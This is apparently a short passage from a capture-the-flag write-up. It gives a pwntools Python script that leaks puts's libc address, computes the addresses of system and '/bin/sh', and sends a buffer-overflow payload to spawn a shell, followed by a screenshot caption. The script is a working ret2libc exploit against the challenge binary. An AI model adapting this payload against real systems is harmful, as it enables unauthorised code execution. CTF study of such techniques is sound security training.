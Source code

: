 ```python
puts_adddr = u32(io.recv(4))

libc_base = puts_adddr - libc.sym['puts']
system_addr = libc_base + libc.sym['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))

io.sendlineafter('Please enter your name:',b'1'*0x14+b'\xff')
io.sendlineafter('3. Study hard from now',b'2')
io.sendlineafter('Cool! And whd did you choice it?',b'a'*(0x1c+4)+p32(system_addr)+b'a'*4+p32(bin_sh_addr))

io.interactive()
```

### 2

![屏幕截图 2023-11-13 131414](images/2.png)
